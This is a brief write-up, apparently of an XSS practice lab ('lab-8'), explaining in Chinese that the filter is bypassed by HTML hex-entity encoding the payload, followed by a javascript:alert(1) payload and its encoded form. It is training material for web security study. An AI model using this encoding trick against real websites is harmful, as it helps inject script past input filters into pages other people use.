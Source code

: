 # lab-8
![](vx_images/12965924741849.png)

做法为将payload进行html16编码
javascript:alert(1)
&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;
